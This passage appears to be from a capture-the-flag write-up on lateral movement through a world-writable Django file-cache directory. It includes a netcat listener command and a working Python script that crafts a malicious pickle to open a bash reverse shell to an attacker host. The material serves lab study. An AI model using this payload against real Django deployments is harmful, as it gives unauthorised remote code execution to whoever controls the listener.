 ### Django Cache Discovery
```bash
ls -ld /var/tmp/django_cache
# drwxrwxrwx 2 sandy www-data 4096 Sep 25 01:15 /var/tmp/django_cache
```

**Critical Observations:**
1. **World-writable directory**: Any user can write to the cache directory
2. **Owner**: sandy (the Django application runs as this user)  
3. **Group**: www-data (web server context)

This is considered **Lateral Movement** because instead of escalating privileges directly (e.g., via sudo), we pivot from one compromised account (`mikey`) to another account (`sandy`), which provides greater access.

### Understanding Django FileBasedCache
Django uses different caching backends (FileBasedCache, Memcached, Redis). If no external cache is configured, Django defaults to storing cache data on the filesystem, typically under `/var/tmp/django_cache/`.

The Django application is running as user `sandy`, not `www-data`. When we exploit the Django cache and trigger code execution, the payload executes as `sandy`.

### Pickle Deserialization Attack

Django's FileBasedCache stores serialized Python objects using the pickle module. When Django loads cache files, it automatically calls `pickle.loads()`, which can execute arbitrary code if the pickle data is malicious.

**Step 1: Set up listener**
```bash
nc -lvnp 4444
```

**Step 2: Generate malicious pickle payload** AI useful thanks Claude AI 
```python
#!/usr/bin/env python3
import os
import pickle
import time
import sys

LHOST = "10.10.15.xx"
LPORT = 5000

class Exploit:
    def __reduce__(self):
        return (os.system, (f'bash -c "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"',))

expiry = str(int(time.time()) + 600).encode() + b"\n"  # epoch + LF
payload = pickle.dumps(Exploit(), protocol=pickle.HIGHEST_PROTOCOL)
sys.stdout.buffer.write(expiry + payload)
```
